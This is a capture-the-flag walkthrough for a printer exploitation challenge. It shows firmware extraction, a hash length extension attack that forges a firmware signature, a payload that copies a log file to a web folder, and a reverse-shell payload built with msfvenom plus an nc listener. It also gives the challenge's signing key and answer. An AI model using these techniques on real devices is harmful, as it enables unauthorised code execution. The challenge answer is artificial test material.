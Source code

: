 # Printer Exploitation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [printer website](https://printer.kringlecastle.com/)<br/>
**Terminal hint**: -


## Objective

!!! question "Request"
    Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

??? quote "Ruby Cyster"
    So first things first, you should definitely take a look at the firmware.<br/>
    With that in-hand, you can pick it apart and see what's there.<br/>
    Did you know that if you append multiple files of that type, the last one is processed?<br/>
    Have you heard of [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)?<br/>
    If something isn't working, be sure to check the output! The error messages are very verbose.<br/>
    Everything else accomplished, you just might be able to get shell access to that dusty old thing!


## Hints

??? hint "Dropping Files"
    Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).

??? hint "Hash Extension Attacks"
    [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.

??? hint "Printer Firmware"
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.


## Solution

### Reverse the firmware

We first need to understand what a firmware file looks like. So, download the [current firmware](../artifacts/objectives/o7/firmware-export.json) from the [printer website](https://printer.kringlecastle.com), copy out the data in the JSON file's `firmware` field, BASE64-decode the data, and save it to its own `firmware-export.bin` file (line 1).  The `file` command tells us we're working with a ZIP file (line 2). Unpacking the archive reveals a `firmware.bin` executable (lines 3-4).

??? info "Parsing JSON data in the command line"
    [`jq`](https://stedolan.github.io/jq/) is a handy command-line JSON processor. You can use it to slice, filter, map, and transform structured JSON data with the same ease that tools like `sed`, `awk`, and `grep` let you manipulate text. `jq` isn't a requirement for this challenge, but it helps to turn the whole extraction process into an easy-to-use oneliner.

```shell linenums="1" title="Extracting the firmware"
cat firmware-export.json | jq -r '.firmware' | base64 -D > firmware-export.bin
file firmware-export.bin  # indicates this is a ZIP file
mv firmware-export.bin firmware-export.zip  # rename for clarity
unzip firmware-export.zip  # unpack archive
file firmware.bin  # indicates this is a 64-bit ELF binary
```

To create a valid firmware file we just reverse the above steps. Create an executable called `firmware.bin`, compress the file, copy the BASE64-encoded archive data to the `firmware` field in the JSON file. The last step is to add a valid signature to the JSON file, but unfortunately we're missing the necessary secret key.


### Ensuring signature validation

When uploading a firmware file, the printer will validate the signature by calculating a signature value using a secret key only it knows. If the calculated signature matches the value in the uploaded JSON file, the firmware is considered valid and the printer will execute the enclosed `firmware.bin` file. If the signature is invalid, we get the following error.

![Invalid signature](../img/objectives/o7/invalid_signature.png){: class=border }

Building a new firmware file means we also need a new signature, but how do we do that without the secret key? That question is answererd by the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) hint, which also provides a handy [`Hash Extender`](https://github.com/iagox86/hash_extender) tool to automate the attack! :partying_face:

!!! quote "blog.skullsecurity.org"
    An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.

    It turns out, Even though the attacker doesn't know the value of the prepended secret, he can still generate a valid hash for *{secret || data || attacker_controlled_data}*! This is done by simply picking up where the hashing algorithm left off; it turns out, 100% of the state needed to continue a hash is in the output of most hashing algorithms! We simply load that state into the appropriate hash structure and continue hashing.

Since we're appending our payload to valid firmware data in order to execute the Hash Extension attack, we don't need to worry about which of the 2 archives will be unpacked. Ruby Cister notes that *"if you append multiple files of that type, the last one is processed"*, which ensures our `firmware.bin` will be extracted and executed by the printer after successful validation.


### Creating the payload

For the payload we can keep it simple by using a [shell script](../tools/objectives/o7/payload-script.sh) or [binary](../tools/objectives/o7/payload-c.c) that copies `/var/spool/printer.log` to `/app/lib/public/incoming`, making it accessible from [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/). Name the payload `firmware.bin`, make it executable using `chmod +x firmware.bin`, and compress the file using `zip payload-script.zip firmware.bin`.

We now have the original [`firmware-export.zip`](../artifacts/objectives/o7/firmware-export.zip) we extracted previously and our own [`payload-script.zip`](../tools/objectives/o7/payload-script.zip), which we both use as input for [`Hash Extender`](https://github.com/iagox86/hash_extender) to create the final combined payload and valid signature.

??? info "Compiling Hash Extender"
    The Hash Extender C code first needs to be compiled into a binary before you can use it. Clone the [Hash Extender repository](https://github.com/iagox86/hash_extender), then change into the `hash_extender` directory using `cd hash_extender`, and finally run `make` to compile the project into a `hash_extender` binary.

![Hash Extender](../img/objectives/o7/hash_extender.png)

[`xxd`](https://linux.die.net/man/1/xxd) will create a hex dump of our `payload-script.zip` file and `xargs` will then take that data and make it available to `hash_extender` as `append_data`. As an alternative to these commands you could also [update the C source](../tools/objectives/o7/hash_extender-append-file-fix.c) to support an `--append-file` parameter that simply takes a filename instead of file contents.


### Putting it all together

Use the signature (i.e., `893db6847b23ae0c4811b55e0ddab206072738b3d13d35431447c90ac8da98d1`) and BASE64 data from the previous step to create a new [`firmware-payload-script.json`](../tools/objectives/o7/firmware-payload-script.json) file and upload it to the printer. Once the upload finishes the printer will validate the JSON, decode the enclosed BASE64 data, validate the signature, unpack the last archive which contains our payload, and execute our `firmware.bin` shell script which copies `/var/spool/printer.log` to `/app/lib/public/incoming/crahan_printer.log`. We can now grab the printer log from [https://printer.kringlecastle.com/incoming/crahan_printer_new.log](https://printer.kringlecastle.com/incoming/crahan_printer_new.log).

![Printer log](../img/objectives/o7/printer_log.png){: class=border }

!!! done "Answer"
    `Troll_Pay_Chart.xlsx`

!!! note "Reverse shell<span id="reverse-shell"></span>"
    The example above uses a very simple payload to copy the file we need to a location we can access it from. But you can solve this challenge using a reverse shell as the payload as well. Only the payload creation part is different. All other steps remain exactly the same as outlined above.
    
    Create a simple reverse TCP shell payload using [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) by running `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=9085 -f elf > firmware.bin`. Next, set up a listener using `nc -lvp 9085` that will accept the incoming reverse shell connection. Finally, upload the new firmware file and watch the connection be established.

    In [`/app/lib/app.rb`](../artifacts/objectives/o7/app.rb) you'll find the `mybigsigningkey!` secret which is used by the printer to validate the firmware signature. In `/var/spool/` there's a [`birdknob.png`](../artifacts/objectives/o7/birdknob.png) picture of a... bird on a doorknob. But you can also leave [a note](https://twitter.com/joeammond/status/1470176441392418816) on the host for other players to find.

    ![Reverse shell](../img/objectives/o7/reverse_shell.png)
